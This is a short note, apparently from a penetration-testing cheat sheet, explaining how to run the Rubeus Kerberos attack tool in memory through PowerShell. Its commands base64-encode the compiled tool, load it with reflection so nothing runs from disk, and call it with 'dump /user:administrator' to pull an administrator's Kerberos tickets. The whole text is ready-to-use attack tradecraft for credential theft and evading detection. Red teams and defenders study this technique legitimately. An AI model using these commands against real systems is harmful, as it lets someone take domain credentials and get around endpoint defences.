 # .NET Execute Assembly

#### Running Rubeus Through PowerShell

If you want to run Rubeus in-memory through a PowerShell wrapper, first compile the Rubeus and base64-encode the resulting assembly:

```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Temp\Rubeus.exe")) | Out-File -Encoding ASCII C:\Temp\rubeus.txt
```

Or read base64 from file

```powershell
$content = [IO.File]::ReadAllText(".\test.txt")
```

Rubeus can then be loaded in a PowerShell script with the following (where "aa..." is replaced with the base64-encoded Rubeus assembly string):

```powershell
$RubeusAssembly = [System.Reflection.Assembly]::Load([Convert]::FromBase64String("aa..."))
```

The Main() method and any arguments can then be invoked as follows:

```powershell
[Rubeus.Program]::Main("dump /user:administrator".Split())
```

\
